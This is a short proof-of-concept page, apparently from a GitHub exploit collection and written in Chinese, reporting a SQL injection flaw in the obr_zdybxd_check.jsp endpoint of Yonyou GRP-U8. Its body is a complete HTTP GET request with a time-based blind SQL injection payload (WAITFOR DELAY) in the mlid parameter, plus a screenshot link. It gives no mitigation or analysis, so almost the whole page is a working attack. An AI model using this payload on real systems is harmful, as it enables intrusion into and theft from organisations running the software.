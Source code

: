 ## 用友GRP-U8-obr_zdybxd_check存在sql注入漏洞

## poc
```
GET /u8qx/obr_zdybxd_check.jsp?mlid=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![fa7a791ea47812cbec3d99f5b37fd7bb](https://github.com/wy876/POC/assets/139549762/8bee3c88-ed03-4c91-9935-63e6dc34b5cd)
